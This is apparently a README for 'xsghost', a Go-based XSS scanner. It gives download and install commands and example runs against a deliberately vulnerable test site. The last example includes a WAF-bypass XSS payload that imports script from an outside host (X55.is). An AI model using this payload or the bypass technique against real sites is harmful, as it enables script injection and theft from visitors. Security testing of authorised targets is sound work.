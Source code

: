# xsghost
One XSS scan go based

# Download, Build and Install.
### WINDOWS Download
```
curl -L -o xsghost.exe "https://github.com/eikehacker1/xsghost/raw/refs/heads/main/xsghost.exe"
```
### Linux Download
```
curl -L -o  xsghost "https://github.com/eikehacker1/xsghost/raw/refs/heads/main/xsghost"
```
### Build on Any System using GO. 

```
go install -v github.com/eikehacker1/xsghost@latest
```

# How to Uuse 

###  Use without filter

```
./xsghost.exe testphp.vulnweb.com 
```

### Use with filter

```
./xsghost.exe testphp.vulnweb.com  -only-poc 
```

###  Bypass Payload in AWS, Iperva, Cloudflare and Akamai.

```
./xsghost.exe testphp.vulnweb.com  -only-poc -payload "<A HRef=//X55.is AutoFocus %26%2362 OnFocus%0C=import(href)>"
```
